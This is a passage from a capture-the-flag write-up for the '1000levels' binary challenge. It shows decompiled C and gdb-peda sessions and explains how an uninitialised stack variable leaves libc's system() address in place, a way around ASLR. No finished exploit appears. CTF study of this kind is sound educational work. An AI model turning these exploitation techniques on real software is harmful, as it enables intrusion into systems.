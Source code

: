 ```c
                    if ((strtol(&var_30, 0x0, 0xa) == sign_extend_32(var_10) ? 0x1 : 0x0) != 0x0) {
                            rax = 0x1;
                    }
                    else {
                            rax = 0x0;
                    }
            }
    }
    return rax;
}
```

## Solving the LIBC ASLR Problem

Unfortunately, we do not seem to have an information leak primitive to exploit.
Thus, we cannot leak an address to jump to before we send our overflow payload.
However, we have a solution to this. Recall that in the `go()` function, if we
pass in 0 on the first prompt, it would leave the address of `system()` in libc
in an uninitialised variable. Now, the value from the second prompt is added to
this variable. This causes the variable to be larger than 1000, and sets the
number of levels to 1000.

```shell
gdb-peda$ r
Starting program: /vagrant/hitb/1000levels/1000levels
Welcome to 1000levels, it's much more diffcult than before.
1. Go
2. Hint
3. Give up
Choice:
2
NO PWN NO FUN
1. Go
2. Hint
3. Give up
Choice:
1
How many levels?
0
Coward
Any more?
0
More levels than before!
```

This means that the address of system is somewhere on the stack and we might be
able to use it.

```shell
gdb-peda$ stack
0000| 0x7fffffffe3b0 --> 0x0
0008| 0x7fffffffe3b8 --> 0x555555554d79 (<_Z4hintv+137>:    nop)
0016| 0x7fffffffe3c0 --> 0x7ffff7a52390 (<__libc_system>:    test   rdi,rdi)
0024| 0x7fffffffe3c8 --> 0x3e8
0032| 0x7fffffffe3d0 --> 0x4e5546204f ('O FUN')
0040| 0x7fffffffe3d8 --> 0x0
0048| 0x7fffffffe3e0 --> 0x0
0056| 0x7fffffffe3e8 --> 0x0
```
